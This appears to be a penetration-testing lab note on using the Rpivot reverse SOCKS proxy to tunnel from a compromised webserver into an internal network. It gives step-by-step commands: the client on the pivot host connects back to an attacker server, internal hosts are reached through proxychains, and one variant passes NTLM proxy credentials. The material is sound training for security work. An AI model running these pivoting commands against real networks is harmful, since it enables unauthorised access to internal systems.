
![[Pasted image 20250626173716.png]]

Rpivot is a reverse SOCKS proxy tool written in Python for SOCKS tunneling

- Gain access to webserver in corporate network

The client binds to a port on the webserver, exposing it to an external server

```shell-session
git clone https://github.com/klsecservices/rpivot.git
```
```shell-session
sudo apt-get install python2.7
```

**OR

```shell-session
MasterMarkyMark@htb[/htb]$ curl https://pyenv.run | bash
MasterMarkyMark@htb[/htb]$ echo 'export PYENV_ROOT="$HOME/.pyenv"' >> ~/.bashrc
MasterMarkyMark@htb[/htb]$ echo 'command -v pyenv >/dev/null || export PATH="$PYENV_ROOT/bin:$PATH"' >> ~/.bashrc
MasterMarkyMark@htb[/htb]$ echo 'eval "$(pyenv init -)"' >> ~/.bashrc
MasterMarkyMark@htb[/htb]$ source ~/.bashrc
MasterMarkyMark@htb[/htb]$ pyenv install 2.7
MasterMarkyMark@htb[/htb]$ pyenv shell 2.7
```

```shell-session
python2.7 server.py --proxy-port 9050 --server-port 9999 --server-ip 0.0.0.0
```

```shell-session
scp -r rpivot ubuntu@<IpaddressOfTarget>:/home/ubuntu/
```
- Transfer rpivot to the target

```shell-session
python2.7 client.py --server-ip 10.10.14.18 --server-port 9999
```
- This is done on pivot host ^

```shell-session
proxychains firefox-esr 172.16.5.135:80
```

**OR

```shell-session
proxychains curl -v 172.16.5.135:80
```

**If HTTP-proxy with NTLM authentication is configured on domain controller
```shell-session
python client.py --server-ip <IPaddressofTargetWebServer> --server-port 8080 --ntlm-proxy-ip <IPaddressofProxy> --ntlm-proxy-port 8081 --domain <nameofWindowsDomain> --username <username> --password <password>
```

